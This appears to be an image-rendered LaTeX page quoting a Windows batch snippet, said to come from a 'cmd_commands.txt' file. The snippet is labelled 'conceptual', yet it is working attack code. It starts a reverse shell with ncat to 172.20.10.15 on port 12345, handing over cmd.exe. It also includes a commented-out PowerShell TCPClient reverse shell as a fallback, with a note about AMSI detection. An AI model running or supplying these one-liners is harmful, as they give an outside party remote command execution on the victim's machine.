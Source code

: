 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
		:: Start reverse shell using ncat if found, otherwise fallback (conceptual)
		echo [%TIME%] Attempting to start reverse shell. >> %LOG_DIR%\cmd_execution.log
		if exist %NCAT_PATH% (
		start /min cmd /c "%NCAT_PATH% 172.20.10.15 12345 -e cmd.exe"
		) else (
		echo [%TIME%] Ncat not available for reverse shell. >> %LOG_DIR%\cmd_execution.log
		:: PowerShell reverse shell as a fallback (more likely to be detected by AMSI)
		:: powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('172.20.10.15',12345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%|{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
		)
	\end{verbatim}
	Source: Provided `cmd_commands.txt` file (with illustrative enhancements for robustness and logging).
	
\end{document}
